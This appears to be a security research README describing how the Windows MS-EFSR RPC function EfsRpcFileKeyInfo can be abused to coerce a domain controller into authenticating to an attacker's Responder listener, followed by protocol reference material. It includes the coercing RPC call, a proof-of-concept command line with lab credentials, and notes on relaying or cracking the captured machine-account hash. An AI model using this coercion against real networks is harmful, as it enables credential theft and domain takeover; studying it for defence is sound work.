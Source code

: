 # MS-EFSR - Remote call to EfsRpcFileKeyInfo (opnum 12)

## Summary

 - **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

 - **Protocol UUID**: c681d488-d850-11d0-8c52-00c04fd90f7e

 - **Protocol version**: 1.0

 - **Function name**: [`EfsRpcFileKeyInfo`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/6813bfa8-1538-4c5f-982a-ad58caff3c1c)

 - **Function operation number**: `12`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine.

Then we need to connect to the remote SMB pipe `\PIPE\lsarpc` and bind to (uuid `c681d488-d850-11d0-8c52-00c04fd90f7e`, version `1.0`) in order to perform calls to RPC functions of the `MS-EFSR` protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\lsarpc`. This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. It will then call the remote [`EfsRpcFileKeyInfo`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/6813bfa8-1538-4c5f-982a-ad58caff3c1c) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcFileKeyInfo("\\\\192.168.2.51\\share\\file.txt\x00", 0)
```


We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share\file.txt` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
DWORD EfsRpcFileKeyInfo(
    [in] handle_t binding_h,
    [in, string] wchar_t* FileName,
    [in] DWORD InfoClass,
    [out] EFS_RPC_BLOB** KeyInfo
);
```

 - **binding_h**: This is an RPC binding handle parameter, as specified in [C706] and [MS-RPCE] section 2.


 - **FileName**: An EFSRPC identifier, as specified in section 2.2.1.


 - **InfoClass**: One of the values in the following table. With the exception of UPDATE_KEY_USED (0x00000100), a server SHOULD support all of these values. A server MAY choose to support UPDATE_KEY_USED.<45>

| Name | Value | Description |
|---|---|---|
| `BASIC_KEY_INFO` | `0x00000001` |  Request information about the keys used to encrypt the object's contents. On success, the server will return the information in an `EFS_KEY_INFO` (2.2.14) structure in the `KeyInfo` parameter. | 
| `CHECK_COMPATIBILITY_INFO` | `0x00000002` | Requests the EfsVersion for the encrypted file. On success, the server will return the information in an `EFS_COMPATIBILITY_INFO` structure in the KeyInfo parameter. | 
| `UPDATE_KEY_USED` | `0x00000100` | Update the user certificates used to give a specific user access to an object. The server will populate the `KeyInfo` parameter with a zero-terminated, wide character Unicode string that contains a newline-separated list of names of objects successfully updated. | 
| `CHECK_DECRYPTION_STATUS` | `0x00000200` | Request a hint from the server as to whether the given object could be successfully decrypted without further user intervention or higher-level events. The server will return this information in an `EFS_DECRYPTION_STATUS_INFO` structure in the `KeyInfo` parameter. |
| `CHECK_ENCRYPTION_STATUS` | `0x00000400` | Request a hint from the server as to whether the given object could be successfully encrypted without further user intervention or higher-level events. The server will return this information in an `EFS_ENCRYPTION_STATUS_INFO` structure in the `KeyInfo` parameter. |


 - **KeyInfo**: Returned by the server, as previously specified.

## References

 - Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31


 - Documentation of function `EfsRpcFileKeyInfo`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/6813bfa8-1538-4c5f-982a-ad58caff3c1c